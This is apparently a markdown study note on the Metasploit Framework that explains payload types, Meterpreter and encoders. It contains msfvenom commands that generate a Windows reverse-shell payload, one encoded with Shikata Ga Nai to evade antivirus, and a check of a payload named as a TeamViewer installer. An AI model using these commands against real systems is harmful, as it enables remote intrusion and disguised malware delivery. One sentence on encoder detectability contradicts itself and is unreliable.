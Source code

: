 # Using the Metasploit Framework
- [MSF Components](#msf-components)
    - [Payloads](#payloads)
    - [Encoders](#encoders)
## MSF Components
### Payloads
- There are three different types of payload modules in the Metasploit Framework: Singles, Stagers, and Stages.

- Whether or not a payload is staged is represented by `/` in the payload name . For example, `windows/shell_bind_tcp` is a single payload with no stage, whereas `windows/shell/bind_tcp` consists of a stager (bind_tcp) and a stage (shell).

1. Singles
    - A Single payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one.
    - Singles are self-contained payloads.

2. Stagers
    - Stager payloads work with Stage payloads to perform a specific task. 
    - A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host.

3. Stages
    - Stages are payload components that are downloaded by stager's modules. 
    - The various payload Stages provide advanced features with no size limits, such as Meterpreter, VNC Injection, and others. 

- The Meterpreter payload is a specific type of multi-faceted payload that uses DLL injection to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes.


### Encoders

- Encoders assist with making payloads compatible with different processor architectures while at the same time help with antivirus evasion. 
- The use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

- Shikata Ga Nai (SGN) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore.

- Generating Payload - Without Encoding (using msfvenom): `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`
- Generating Payload - With Encoding: `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`

> [!TIP]
> We can put `-i 10` to multiple iterations of the same Encoding scheme.


- We can `msf-virustotal` to analyze our payloads: `msf-virustotal -k <API key> -f TeamViewerInstall.exe`


